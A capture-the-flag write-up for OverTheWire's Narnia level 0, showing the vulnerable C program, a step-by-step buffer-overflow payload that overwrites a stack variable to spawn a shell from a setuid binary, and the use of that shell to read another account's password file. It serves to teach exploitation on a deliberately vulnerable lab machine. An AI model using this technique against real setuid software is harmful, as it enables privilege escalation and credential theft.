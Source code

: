 
#Narnia0

narnia.labs.overthewire.org

**Username:** narnia0
**Password:** narnia0
**Description:**  
> This wargame is for the ones that want to learn basic exploitation. You can see the most common bugs in this game and we've tried to make them easy to exploit. You'll get the source code of each level to make it easier for you to spot the vuln and abuse it.  

##Write-up

> Before we do anything, let's go ahead and run the program and see what it does.
>
>```
># ./narnia0  
>Correct val's value from 0x41414141 -> 0xdeadbeef!  
>Here is your chance: AAAAAAAA  
>buf: AAAAAAAA  
>val: 0x41414141  
>WAY OFF!!!!  
>```
> Ok, it basically just tell's us that we need to correct a value and asks for input.  After accepting the input it looks like it just tells us the value that we submitted and the value of the area we are supposed to overwrite.
>
> Let's go ahead and take a peek at the source:
>
>```C
>/*
>    This program is free software; you can redistribute it and/or modify
>    it under the terms of the GNU General Public License as published by
>    the Free Software Foundation; either version 2 of the License, or
>    (at your option) any later version.
>
>    This program is distributed in the hope that it will be useful,
>    but WITHOUT ANY WARRANTY; without even the implied warranty of
>    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
>    GNU General Public License for more details.
>
>    You should have received a copy of the GNU General Public License
>    along with this program; if not, write to the Free Software
>    Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
>*/
>#include <stdio.h>
>#include <stdlib.h>
>
>int main(){
>	long val=0x41414141;
>	char buf[20];
>
>	printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
>	printf("Here is your chance: ");
>	scanf("%24s",&buf);
>
>	printf("buf: %s\n",buf);
>	printf("val: 0x%08x\n",val);
>
>	if(val==0xdeadbeef)
>		system("/bin/sh");
>	else {
>		printf("WAY OFF!!!!\n");
>		exit(1);
>	}
>
>	return 0;
>}
>```
>
> Alright, we can see the declaration of the buffer ```char buf[20];``` and where the input is read in ```scanf("%24s",&buf);```.  It also looks like if we get our values correct that we will be rewarded quite generously with a shell.  How nice! Let's play around with this new information a bit.  If the buffer was only supposed to be 20 characters, let's see what happens when our input is 21 characters, but since it looks like the buffer we want to overwrite has ```0x41414141``` already in it we are going to have to use another letter besides ```A``` as our input. We'll settle for ```R```.  Just as a quick side note, rather than inputting the values by hand each time let's utilize python to make life easier and just pipe in the input.
>
>```
># python -c 'print "R"*21' | ./narnia0  
>Correct val's value from 0x41414141 -> 0xdeadbeef!  
>Here is your chance: buf: RRRRRRRRRRRRRRRRRRRRR  
>val: 0x41410052  
>WAY OFF!!!!  
>```
>
> Hmm, it looks like we overwrote one character with the null value at the end of the input overwriting a second.  It also looks like it started overwriting from the back, so we'll need to remember to take the endianness into account for our final input.  Let's try overwriting all 4 characters of the buffer.
>
>```
># python -c 'print "R"*24' | ./narnia0  
>Correct val's value from 0x41414141 -> 0xdeadbeef!  
>Here is your chance: buf: RRRRRRRRRRRRRRRRRRRRRRRR  
>val: 0x52525252  
>WAY OFF!!!!  
>```
>
> Perfect, we overwrote the whole buffer with our input.  Now, lets start trying to fit ```0xdeadbeef``` in there.  Since the hex values for ```0xdeadbeef``` don't match up to ascii characters we need a way to insert them as input.  We are already using python for the repetitive input, let's just back off our number of ```R``` and tag on hex values to the end of that string and see what it does.
>
>```
># python -c 'print "R"*20+"\xde\xad\xbe\xef"' | ./narnia0  
>Correct val's value from 0x41414141 -> 0xdeadbeef!  
>Here is your chance: buf: RRRRRRRRRRRRRRRRRRRRޭ�  
>val: 0xefbeadde  
>WAY OFF!!!!  
>```
> Our buffer shows that we inserted ```RRRRRRRRRRRRRRRRRRRRޭ�``` which we obviously wouldn't have been able to type in.  However, we forget about the little endian part and our values aren't in the correct order.  Let's fix that.
>
>```
># python -c 'print "R"*20+"\xef\xbe\xad\xde"' | ./narnia0  
>Correct val's value from 0x41414141 -> 0xdeadbeef!  
>Here is your chance: buf: RRRRRRRRRRRRRRRRRRRRﾭ  
>val: 0xdeadbeef  
>```
>
> Well, we didn't get the ```WAY OFF!!!``` message, but no shell. I actually spent a good bit of time at this stage, but learned a few key concepts in doing so.  The shell is being launched, but the problem is that it's exiting before we have a chance to run anything.  What we need to do is use the subshell syntax in bash and try to group commands together.  Let's try that with a basic command.
> 
>```
>narnia0@melinda:/narnia$ (python -c 'print "A"*20+"\xef\xbe\xad\xde"';ls) | ./narnia0 
>Correct val's value from 0x41414141 -> 0xdeadbeef!
>Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ
>val: 0xdeadbeef
>/bin/sh: 1: narnia0: not found
>/bin/sh: 2: narnia0.c: not found
>/bin/sh: 3: narnia1: not found
>/bin/sh: 4: narnia1.c: not found
>/bin/sh: 5: narnia2: not found
>/bin/sh: 6: narnia2.c: not found
>/bin/sh: 7: narnia3: not found
>/bin/sh: 8: narnia3.c: not found
>/bin/sh: 9: narnia4: not found
>/bin/sh: 10: narnia4.c: not found
>/bin/sh: 11: narnia5: not found
>/bin/sh: 12: narnia5.c: not found
>/bin/sh: 13: narnia6: not found
>/bin/sh: 14: narnia6.c: not found
>/bin/sh: 15: narnia7: not found
>/bin/sh: 16: narnia7.c: not found
>/bin/sh: 17: narnia8: not found
>/bin/sh: 18: narnia8.c: not found
>```
>
> Now this looks a little better.  It looks like the output from ```ls``` was passed into the /bin/sh from narnia0. Here we can utilize the ```cat``` command with no parameters which will basically leave the input open for us to pass values to /bin/sh.
>
>```
>narnia0@melinda:/narnia$ (python -c 'print "A"*20+"\xef\xbe\xad\xde"';cat) | ./narnia0 
>Correct val's value from 0x41414141 -> 0xdeadbeef!
>Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ
>val: 0xdeadbeef
>whoami
>narnia1
>pwd 
>/narnia
>```
>
> Finally. The ```cat``` command left the input open for us and everything we passed was executed by /bin/sh as a separate command.  Now we just need to find where the flag may be.
>
>```
>narnia0@melinda:/narnia$ find / -name 'narnia*' -print 2>/dev/null
>/games/narnia
>/games/narnia/narnia8
>/games/narnia/narnia6.c
>/games/narnia/narnia6
>/games/narnia/narnia3
>/games/narnia/narnia7
>/games/narnia/narnia4
>/games/narnia/narnia2.c
>/games/narnia/narnia3.c
>/games/narnia/narnia1
>/games/narnia/narnia5
>/games/narnia/narnia4.c
>/games/narnia/narnia5.c
>/games/narnia/narnia0
>/games/narnia/narnia2
>/games/narnia/narnia1.c
>/games/narnia/narnia7.c
>/games/narnia/narnia8.c
>/games/narnia/narnia0.c
>/etc/narnia_pass
>/etc/narnia_pass/narnia3
>/etc/narnia_pass/narnia7
>/etc/narnia_pass/narnia5
>/etc/narnia_pass/narnia1
>/etc/narnia_pass/narnia8
>/etc/narnia_pass/narnia6
>/etc/narnia_pass/narnia9
>/etc/narnia_pass/narnia0
>/etc/narnia_pass/narnia2
>/etc/narnia_pass/narnia4
>/narnia
>/home/narnia3
>/home/narnia7
>/home/narnia5
>/home/narnia1
>/home/narnia8
>/home/narnia6
>/home/narnia9
>/home/narnia0
>/home/narnia2
>/home/narnia4
>```
>
> The ```find / -name 'narnia*'``` is a fairly basic command.  The ```-print 2>/dev/null``` is basically just there to eliminate any errors that may clutter the output.  Out of our results the most promising is the ```/etc/narnia_pass``` directory that looks like there is a password document for each challenge.  Since we already have the password for narnia0, let's try to grab the narnia1 password.
>
>```
>narnia0@melinda:/narnia$ cat /etc/narnia_pass/narnia1
>cat: /etc/narnia_pass/narnia1: Permission denied
>narnia0@melinda:/narnia$ ls -l /etc/narnia_pass/narnia1
>-r-------- 1 narnia1 narnia1 11 Nov 14  2014 /etc/narnia_pass/narnia1
>narnia0@melinda:/narnia$ ls -l narnia0
>-r-sr-x--- 1 narnia1 narnia0 7452 Nov 14  2014 narnia0
>```
>
> We can't just ```cat``` the narnia1 password because we don't have permissions but it looks like the narnia0 challege runs under narnia1.  Let's use our subshell trick and try to read the password.
>
>```
>narnia0@melinda:/narnia$ (python -c 'print "A"*20+"\xef\xbe\xad\xde"';cat) | ./narnia0 
>Correct val's value from 0x41414141 -> 0xdeadbeef!
>Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ
>val: 0xdeadbeef
>cat /etc/narnia_pass/narnia1
>**********
>```
>
> There we go. Finally got it. On to narnia1.
